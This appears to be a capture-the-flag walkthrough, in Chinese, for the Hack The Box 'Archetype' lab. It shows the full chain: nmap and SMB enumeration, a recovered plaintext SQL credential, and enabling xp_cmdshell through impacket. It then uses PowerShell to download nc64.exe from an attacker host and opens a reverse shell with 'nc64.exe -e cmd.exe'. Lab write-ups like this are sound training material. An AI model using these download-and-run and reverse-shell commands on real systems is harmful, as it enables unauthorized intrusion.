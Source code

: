 <center>Archetype</center>







[toc]







## Archetype

> Archetype







### 1. task

1. Which TCP port is hosting a database server?

```shell
1433/tcp
```

2. What is the name of the non-Administrative share available over SMB?

```shell
```

3. What is the password identified in the file on the SMB share?

```shell
```

4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

```shell
```

5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

```shell
```

6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?

```shell
```

7. What file contains the administrator's password?

```shell
```









### 3. flag

> 获取flag

```shell
export ip=10.129.18.192

nmap -sV -sC $ip

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2024-12-03T02:10:49+00:00; +1s from scanner time.
| ms-sql-info: 
|   10.129.18.192:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.18.192:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-03T02:03:39
|_Not valid after:  2054-12-03T02:03:39
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

> 枚举smb共享

```shell
smbclient -N -L \\\\$ip\\

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
```

> **查看backups，并发现 prod.dtsConfig 文件，在 prod.dtsConfig 中发现了`Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`**

![image-20241203102054843](./assets/image-20241203102054843.png)



> **使用impacket工具包的mssqlclient.py脚本连接到mssql服务器**

> **Microsoft SQL Server 2017正在端口1433上运行，并且在配置文件中发现了用户名和密码，尝试进行连接，使用impacket工具包。
>
>   \**工具包地址：[`https://github.com/fortra/impacket`](https://github.com/fortra/impacket)\****

```shell
impacket-mssqlclient ARCHETYPE/sql_svc@$ip -windows-auth
```

![image-20241203102738384](./assets/image-20241203102738384.png)

> 查看`xp_cmdshell`是否可用

```shell
# 查看当前用户角色
SELECT is_srvrolemember('sysadmin');

# 查看 xp_cmdshell是否可用
EXEC xp_cmdshell 'net user';

# 发现xp_cmdshell未激活
```

> 尝试激活xp_cmdshell

```shell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

> 激活了 xp_cmdshell，使用xp_cmdshell 执行命令，whoami执行成功，如果可以执行命令的话我们就可以执行反向shell
>
> `whoami查询成功`，尝试进行反向shell

```shell
xp_cmdshell "whoami"
```

> 反弹shell
>
> 下载`nc64.exe`
>
> [nc](https://eternallybored.org/misc/netcat/)

```shell
# 本地开启web服务，上传nc
python3 -m http.server 8000

# 将 nc64.exe 上传至 C:\Users\sql_svc\Downloads 目录，从http web服务器输出可以看出，nc64.exe 上传成功。
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.32:8000/nc64.exe -outfile nc64.exe"
```

![image-20241203110755888](./assets/image-20241203110755888.png)

> **开启监听通过nc将cmd.exe绑定到监听器，执行命令，获取到shell**

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc64.exe -e cmd.exe 10.10.16.32 4444"

nc -lnvp 4444
```

![image-20241203111108466](./assets/image-20241203111108466.png)